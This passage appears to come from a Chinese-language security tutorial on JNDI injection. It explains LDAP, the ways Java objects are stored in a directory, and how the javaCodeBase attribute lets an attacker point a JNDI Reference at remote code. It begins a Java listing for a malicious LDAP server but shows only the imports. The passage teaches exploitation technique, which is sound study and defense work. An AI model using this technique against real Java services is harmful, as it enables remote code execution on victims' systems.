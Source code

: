 <figure markdown="1">
![alt text](img/2.png){loading=lazy width=90%}
<figcaption>JNDI+RMI攻击</figcaption>
</figure>

### JNDI+LDAP

LDAP全称是轻量级目录访问协议（The Lightweight Directory Access Protocol），它提供了一种查询、浏览、搜索和修改互联网目录数据的机制，运行在TCP/IP协议栈之上，基于C/S架构。除了RMI服务之外，JNDI也可以与LDAP目录服务进行交互，Java对象在LDAP目录中也有多种存储形式：

- Java序列化
- JNDI Reference
- Marshalled对象
- Remote Location (已弃用)

LDAP可以为存储的Java对象指定多种属性：

- javaCodeBase
- objectClass
- javaFactory
- javaSerializedData
- ...

javaCodebase 属性可以指定远程的URL，攻击者可以通过JNDI Reference的方式进行利用

=== "LDAP Server"

    ```java
    import java.net.InetAddress;
    import java.net.MalformedURLException;
    import java.net.URL;
    import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPException;